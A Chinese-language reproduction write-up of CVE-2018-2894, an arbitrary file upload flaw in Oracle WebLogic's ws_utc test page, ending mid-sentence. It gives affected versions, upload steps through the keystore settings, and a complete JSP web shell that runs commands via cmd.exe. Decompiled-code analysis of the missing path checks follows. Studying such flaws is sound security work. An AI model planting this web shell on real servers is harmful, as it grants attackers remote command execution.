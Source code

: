 （CVE-2018-2894）WebLogic任意文件上传
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

三、复现过程
------------

下载地址：<http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip>

漏洞复现

服务启动后，访问 <http://localhost:7001/ws_utc/config.do>

![](resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId26.png)

可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

    C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

    <%@ page import="java.util.*,java.io.*,java.net.*"%>
    <HTML><BODY>
    <FORM METHOD="POST" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
            Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                    out.println(disr); disr = dis.readLine(); }
            }
    %>
    </pre>
    </BODY></HTML>

抓包获取到时间戳为1531987145013，则上传到的位置即config\\keystore\\1531987145013\_chybeta.jsp

![](resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId27.png)

访问<http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp>

![](resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId29.png)

简要漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

    public void changeWorkDir(String path) {
        String[] oldPaths = this.getRelatedPaths();
        if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
            this.isWorkDirChangeable = false;
            this.isWorkDirWritable = isDirWritable(path);
            this.isWorkDirChangeable = true;
            this.setTestClientWorkDir(path);
        } else {
            this.persistWorkDir(path);
            this.init();
        }
        if (this.isWorkDirWritable) {
            String[] newPaths = this.getRelatedPaths();
            moveDirs(oldPaths, newPaths);
        } else {
            Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
        }
    }

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：

    @Path("/keystore")
    @POST
    @Produces({"application/xml", "application/json"})
    @Consumes({"multipart/form-data"})
    public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
        if (!RequestUtil.isRequstedByAdmin(this.request)) {
            return Response.status(Status.FORBIDDEN).build();
        } else {
            if (TestClientRT.isVerbose()) {
                Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
            }
            String currentTimeValue = "" + (new Date()).getTime();
            KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
            ....
        }
    }

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

    public static String getKeyStorePath() {
        return getConfigDir() + File.separator + "keystore";
    }

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

    public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
        ...
        if (attachName != null && attachName.trim().length() > 0) {
            if (attachName != null && attachName.trim().length() != 0) {
                attachName = this.refactorAttachName(attachName);
                if (fileNamePrefix == null) {
                    fileNamePrefix = key;
                }
                String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
                kvMap.addValue(key, filename);
                if (isExtactAttachment) {
                    this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
                }
            }
        } 
        ...
    }

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + \"\_\"
+ attachName。这过程没有任何过滤和检查：）...

利用条件：

需要知道部署应用的web目录

ws\_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle®
Fusion Middleware Administering We
